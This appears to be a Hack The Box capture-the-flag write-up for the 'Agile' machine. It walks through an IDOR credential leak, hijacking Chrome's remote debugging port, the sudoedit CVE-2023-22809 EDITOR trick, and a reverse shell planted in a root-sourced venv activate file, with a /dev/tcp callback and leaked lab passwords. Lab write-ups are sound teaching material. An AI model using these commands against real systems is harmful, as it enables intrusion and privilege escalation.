 # Agile(Medium) HTB - Open Beta Season 
## IP = 10.129.171.194

### NMAP

```
PORT   STATE SERVICE VERSION                                                                                                        
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                
|   256 f4bcee21d71f1aa26572212d5ba6f700 (ECDSA)                                 
|_  256 65c1480d88cbb975a02ca5e6377e5106 (ED25519)                               
80/tcp open  http    nginx 1.18.0 (Ubuntu)                                       
|_http-title: Did not follow redirect to http://superpass.htb                    
|_http-server-header: nginx/1.18.0 (Ubuntu)                                      
| http-methods:               
|_  Supported Methods: GET HEAD POST OPTIONS                                     
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Enumeration

Looking around the place I started looking for interesting things, first the login page, after trying some passwords and sqli payloads I decided to register, after registration you can see the vault page, in the vault page there is a form for you to enter your sites credentials, after entering those credentials you can export it to a CSV file. After searching for csv exploits and not succeeding a bit, I checked all functionalities(clicked all the buttons, entered all input, etc.) with BurpSuite and finally something caught my eye. 


<img src="captures/1edit_row.png" />


When clicking the "edit button" and intercepting it, you can see that it activate this /vault/edit_row/10 this looks like it is editing the 10th row meaning there are other rows that we can maybe find and there is a high probability that there is some sort of IDOR(Insecure direct object references).

After sending this request to the repeater we can know try and decrease the numbers from 10 to 9 and etc. to find maybe there is a row which is visible by us and has interesting data.


<img src='captures/2edit_row8.png' />


As you can see when checking for /vault/edit_row/8 we can see something we did not see before which is the issued get request, up until now we only saw the post one but now another one just got add: "/vault/row/8". Sow lets enter it and see whats going on there.

`agile corum 5db7caa1d13cc37c9fc2`


So that looks interesting, if you remember the format of the vault it, should be: site,username,password. So lets try and SSH in. 


### SSH Login

```
$ ssh corum@superpass.htb
corum@superpass.htb's password: 5db7caa1d13cc37c9fc2
corum@agile:~$ whoami && id && cat user.txt 
corum
uid=1000(corum) gid=1000(corum) groups=1000(corum)
0ffb0a28953dcc02b67bcf99b95f9bbf
```

### PrivEsc

#### Switch to Edward


So, after running `pspy` you can see the a command that is running a lot, and it is the following: 

`/opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=28258 --l
ang=en-US --enable-automation --enable-logging --log-level=0 --remote-debugging-port=41829 --test-type=webdriver --allow-pre-commit-
input --ozone-platform=headless --disable-gpu-compositing --enable-blink-features=ShadowDOMV0 --lang=en-US --num-raster-threads=1 --
renderer-client-id=5 --time-ticks-at-unix-epoch=-1678186636007265 --launch-time-ticks=24466562272 --shared-files=v8_context_snapshot
_data:100 --field-trial-handle=0,i,453033962858864317,15047474094187127091,131072 --disable-features=PaintHolding`

this is a this is a command line instruction for running a headless instance of the Google Chrome web browser and the interesting here is `--remote-debugging-port=41829` this flag specifies the port for remote debugging of chrome. This is classic Port Forwarding. So you need to do the following to forward the port to your host:

`$ ssh corum@superpass.htb -L localhost:9999:superpass.htb:41829`

this instruction forward the 41829 port to our localhost in as port 9999. after running that open chrome and enter the following: `chrome://inspect`. Now configure the "Discover network targets" and add the following: `localhost:9999` and enable port forwarding. Now you want to wait, after a little bit a "Remote Target" should appear, you should see http://test.superpass.htb/ when clicking inspect it will open the devtools, navigate the vault again and you'll see edwards creds. 

<img src="captures/3edward-creds.png" />


Now `su` to edwards.
Password: d07867c6267dcb5df0af

When running `sudo -l` the following output appears:

```
User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

You can see that you can edit those two files as dev_admin with sudoedit. If you search for exploits on sudoedit you'll see a new CVE-2023-22809. The exploit was created because sudoedit(sudo -e) mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process. This can lead to privilege escalation. Affected versions are 1.8.0 through 1.9.12.p1. The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value. 

So we need to think how to use this exploit as the 'dev_admin' user because we can't run it as root so root only files are not an option.

When running the following command: `$ EDITOR="vim -- /app/config_prod.json" sudoedit -u dev_admin /app/app-testing/tests/functional/creds.txt` you can read the config_prod.json file you can see the mysql credentials. 

```
config_prod.json:
{
    "SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"
}
```



```

edwards@agile:~$ mysql -h localhost -u superpassuser -p superpass
Password: dSA6l7q*yIVs$39Ml6ywvgK

```

<img src="captures/4mysql.png" />


After a while I understood that this is a rabbit hole and cracking those passwords will take days, so I started looking for other things. So I started looking for some crons that root is running and found out an interesting file that root loads to the shell the file: `/app/venv/bin/activate`, now why is it interesting? well I when looking at the venv directory we can see that "dev_admin" is a part of it, meaning we can use that active file with the exploit we found with `sudoedit` to add a reverse shell command and we'll probably get root.

The following is the command run by root:
<img src="captures/5pspy.png" />


```

edwards@agile:/app/venv/bin$ ls -la activate
-rw-rw-r-- 1 root dev_admin 1976 Mar 11 13:42 activate

```
As you can see this file can be writable by "dev_admin".


`edwards@agile:/app/venv/bin$ EDITOR="vim -- /app/venv/bin/activate" sudoedit -u dev_admin /app/app-testing/tests/functional/creds.txt`


<img src="captures/6activate.png" />



```

$ nc -lvnp 9037              
listening on [any] 9037 ...                                                                                  
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.203] 54408                                                    
bash: cannot set terminal process group (217931): Inappropriate ioctl for device                               
bash: no job control in this shell                                                                            
bash: connect: Connection refused 
bash: /dev/tcp/10.10.14.17/9037: Connection refused                               
bash: /app/venv/bin/activate: line 70: syntax error near unexpected token `fi' 
bash: /app/venv/bin/activate: line 70: `fi' 

root@agile:~# whoami && id && cat root.txt
root
uid=0(root) gid=0(root) groups=0(root)
3109ec7cce6dcb7278d0c9d726f213e9

```

